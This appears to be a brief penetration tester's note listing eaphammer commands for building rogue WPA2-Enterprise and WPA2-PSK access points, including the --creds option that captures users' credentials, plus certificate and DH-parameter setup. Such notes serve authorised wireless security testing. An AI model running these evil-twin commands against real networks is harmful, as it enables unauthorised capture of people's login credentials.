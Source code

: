 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Generating certificate for Radius 

~~~bash
eaphammer --cert-wizard
~~~

Emulating WPA2 Radius

~~~bash
eaphammer --interface wlan0 --essid="SSID" --channel=XX --creds --wpa-version=2
~~~

Emulating WPA2 PSK

~~~bash
eaphammer --interface wlan0 --essid="SSID" --channel=XX --wpa-passphrase="passphrase_to_use" --wpa-version=2
~~~

~~~bash
cd /etc/eaphammer/certs && sudo openssl dhparam -out dh 2048
~~~

~~~bash

~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
